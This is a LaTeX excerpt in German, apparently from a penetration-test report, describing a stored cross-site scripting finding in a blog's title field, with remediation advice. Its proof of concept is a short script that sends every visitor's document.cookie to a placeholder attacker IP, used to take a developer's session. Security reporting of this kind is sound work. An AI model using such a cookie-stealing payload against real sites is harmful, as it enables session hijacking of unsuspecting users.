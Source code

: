
\section{\makecvssbadge Stored Cross-Site Scripting (XSS)}
\subsection*{Proof of Concept}
Der Angreifer kann nun einen neuen Block-Eintrag erstellen und den folgenden JavaScript-Code in das Textfeld für den Titel des Blogeintrags einfügen (siehe \autoref{listing:pedicure-xss}). Dadurch werden die SessionIDs aller Benutzer, die die Startseite mit den Blogeinträgen öffnen, an den Angreifer gesendet. Auf diese Weise wird die SessionID für den Benutzer \texttt{Odo} ermittelt, der über Entwicklerrechte auf dem Webserver verfügt.

\begin{listing}[!ht]
\begin{verbatim}
<span id="sebastian" />
<script>
    image = document.createElement('img');
    image.src = "http://<Angreifer-IP>/?" + document.cookie;
    document.getElementById('sebastian').appendChild(image);
</script>
\end{verbatim}
\caption{Cross Site Scripting zum Erlangen von SessionIDs}
\label{listing:pedicure-xss}
\end{listing}

\subsection*{Empfehlungen}
\begin{itemize}
    \item Eingabevalidierung: Validieren und escapen Sie alle Benutzereingaben, um Injection-Angriffe zu verhindern (siehe \cite{owaspInputValidation}).
    \item Sichere Session-Cookies: Setzen Sie das HTTP-Only-Flag für Cookies für die Session-IDs, damit diese nicht durch clientseitiges JavaScript ausgelesen werden können (siehe \cite{owaspSessionManagement}).
\end{itemize}





